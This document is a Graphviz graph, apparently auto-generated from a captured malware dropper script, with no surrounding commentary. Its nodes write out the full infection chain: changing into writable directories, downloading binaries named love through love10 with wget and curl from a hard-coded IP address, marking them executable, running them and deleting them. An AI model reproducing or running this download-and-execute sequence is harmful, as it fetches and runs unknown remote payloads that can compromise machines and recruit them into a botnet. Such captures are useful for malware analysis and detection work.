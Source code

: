 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://138.197.107.217/love "];
10 -> 12 [label=";,"];
12 [label="curl -O http://138.197.107.217/love "];
12 -> 14 [label=";,"];
14 [label="chmod +x love "];
14 -> 16 [label=";,"];
16 [label="./love "];
16 -> 18 [label=";,"];
18 [label="rm -rf love "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://138.197.107.217/love1 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://138.197.107.217/love1 "];
32 -> 34 [label=";,"];
34 [label="chmod +x love1 "];
34 -> 36 [label=";,"];
36 [label="./love1 "];
36 -> 38 [label=";,"];
38 [label="rm -rf love1 "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://138.197.107.217/love2 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://138.197.107.217/love2 "];
52 -> 54 [label=";,"];
54 [label="chmod +x love2 "];
54 -> 56 [label=";,"];
56 [label="./love2 "];
56 -> 58 [label=";,"];
58 [label="rm -rf love2 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://138.197.107.217/love3 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://138.197.107.217/love3 "];
72 -> 74 [label=";,"];
74 [label="chmod +x love3 "];
74 -> 76 [label=";,"];
76 [label="./love3 "];
76 -> 78 [label=";,"];
78 [label="rm -rf love3 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://138.197.107.217/love4 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://138.197.107.217/love4 "];
92 -> 94 [label=";,"];
94 [label="chmod +x love4 "];
94 -> 96 [label=";,"];
96 [label="./love4 "];
96 -> 98 [label=";,"];
98 [label="rm -rf love4 "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 110 [label="||,"];
110 [label="wget http://138.197.107.217/love5 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://138.197.107.217/love5 "];
112 -> 114 [label=";,"];
114 [label="chmod +x love5 "];
114 -> 116 [label=";,"];
116 [label="./love5 "];
116 -> 118 [label=";,"];
118 [label="rm -rf love5 "];
118 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://138.197.107.217/love6 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://138.197.107.217/love6 "];
132 -> 134 [label=";,"];
134 [label="chmod +x love6 "];
134 -> 136 [label=";,"];
136 [label="./love6 "];
136 -> 138 [label=";,"];
138 [label="rm -rf love6 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://138.197.107.217/love7 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://138.197.107.217/love7 "];
152 -> 154 [label=";,"];
154 [label="chmod +x love7 "];
154 -> 156 [label=";,"];
156 [label="./love7 "];
156 -> 158 [label=";,"];
158 [label="rm -rf love7 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://138.197.107.217/love8 "];
170 -> 172 [label=";,"];
172 [label="curl -O http://138.197.107.217/love8 "];
172 -> 174 [label=";,"];
174 [label="chmod +x love8 "];
174 -> 176 [label=";,"];
176 [label="./love8 "];
176 -> 178 [label=";,"];
178 [label="rm -rf love8 "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://138.197.107.217/love9 "];
190 -> 192 [label=";,"];
192 [label="curl -O http://138.197.107.217/love9 "];
192 -> 194 [label=";,"];
194 [label="chmod +x love9 "];
194 -> 196 [label=";,"];
196 [label="./love9 "];
196 -> 198 [label=";,"];
198 [label="rm -rf love9 "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://138.197.107.217/love10 "];
210 -> 212 [label=";,"];
212 [label="curl -O http://138.197.107.217/love10 "];
212 -> 214 [label=";,"];
214 [label="chmod +x love10 "];
214 -> 216 [label=";,"];
216 [label="./love10 "];
216 -> 217 [label=";,"];
}
